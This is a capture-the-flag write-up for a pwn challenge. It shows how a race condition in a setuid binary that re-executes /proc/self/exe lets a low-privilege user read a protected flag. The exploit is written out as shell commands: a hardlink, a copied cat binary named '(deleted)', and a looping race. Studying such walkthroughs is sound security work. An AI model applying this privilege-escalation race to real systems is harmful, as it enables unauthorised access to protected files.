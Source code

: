 **Challenge: Poetry**

New PWN challenge.

Download the attachment and disassembly the file in IDA. We can see some potential problems here:

> .text:0000000000443A80                         __stack_chk_fail proc near              ; CODE XREF: main+13C↑p<br/>
> .text:0000000000443A80                         ; __unwind {<br/>
> .text:0000000000443A80 48 83 EC 08                             sub     rsp, 8<br/>
> .text:0000000000443A84 BF FF 56 4A 00                          mov     edi, offset aStackSmashingD ; "stack smashing detected"<br/>
> .text:0000000000443A89 E8 02 00 00 00                          call    __fortify_fail<br/>
> .text:0000000000443A89                         ; } // starts at 443A80<br/>
> .text:0000000000443A89                         __stack_chk_fail endp<br/>

So we have a Stack canary\cookie\fortify. It can be bypassed in some cases but for beginners it isnt easy. What this will do, if we find
some stack buffer overflow in the code it will only return to the address on the stack if the cookkie is valid. If not it will fail and your potential evil return address will never execute. So we will need to find something else to exploit this challenge.

Ok, lets connect to the server and see what is what.

> nc -v poetry.ctfcompetition.com 1337

If we execute some commands...

> DNS fwd/rev mismatch: poetry.ctfcompetition.com != 95.250.195.35.bc.googleusercontent.com<br/>
> poetry.ctfcompetition.com [35.195.250.95] 1337 (?) open<br/>
> id
> uid=1338(user) gid=1337(poetry) groups=1337(poetry)
> ls -la<br/>
> total 72<br/>
> ROOT_DIRECTORY<br/>
> cd home<br/>
> ls -la<br/>
> total 4<br/>
> HOME_DIRECTORY<br/>
> cd poetry<br/>
> ls -la<br/>
> total 900<br/>
> drwxr-xr-x 2 poetry poetry     80 Aug 14 13:44 .<br/>
> drwxrwxrwt 4 poetry poetry     80 Aug 14 13:44 ..<br/>
> -r-------- 1 poetry poetry     19 Aug 14 13:44 flag<br/>
> -rwsr-xr-x 1 poetry poetry 917192 Aug 14 13:44 poetry<br/>

Ok, so first we see we are logged in as "user" in "poetry" group. In the "poetry" home directory there is a flag which can be read only
by "poetry". But there is a twist. Binary that reads the flag is owned also by the "poetry" but it has SETUID flag. That basically means that if we run poetry binary now we will run it with higher privileges of the poetry group but we are still user and we have limited access. But the point is we can abuse SETUID to read the flag.

In the poetry binary we have LD_BIND_NOW. If we look how it works, it first gets the value of LD_BIND_NOW which forces the dynamic link loader to resolve all symbols on program start. Usually it resolves them when they are referenced as the program is running.

In our case, LD_BIND_NOW calls ("/proc/self/exe"), then sets LD_BIND_NOW and executes again.

This is weird since binary could just pass the path to execve. Why use this?

After some online research, I figured out that /proc/self/exe can point to /original/path (deleted) but our binary does not check it. So we can make a hardlink to it and fool it to read /poetry (deleted)

Connect to the server again and go to /home/user. Lets make a hardlink:

> cd /home/user<br/>
> ln /home/poetry/poetry ./fake<br/>
> ls -la<br/>
> total 896<br/>
> drwxrwxrwx 2 poetry poetry     60 Aug 14 14:08 .<br/>
> drwxrwxrwt 4 poetry poetry     80 Aug 14 14:07 ..<br/>
> -rwsr-xr-x 2 poetry poetry 917192 Aug 14 14:07 fake<br/>

Our fake has a SUID flag :D So now, lets copy our favorite CAT!

> cp /bin/cat 'fake (deleted')<br/>
> ls -la<br/>
> total 948<br/>
> drwxrwxrwx 2 poetry poetry     80 Aug 14 14:10 .<br/>
> drwxrwxrwt 4 poetry poetry     80 Aug 14 14:07 ..<br/>
> -rwsr-xr-x 2 poetry poetry 917192 Aug 14 14:07 fake<br/>
> -rwxr-xr-x 1 user   poetry  52080 Aug 14 14:10 fake (deleted)<br/>

Disconnect to clear the dirs.

Now we just need to Race! Because this is a Race condition exploit. Connect to server and input:

> cd /home/user<br/>
> cp /bin/cat 'fake (deleted)'<br/>
> while true; do ln /home/poetry/poetry ./fake; ( ./fake ../poetry/flag & ); rm fake; done<br/>

flag: CTF{CV3-2009-1894}




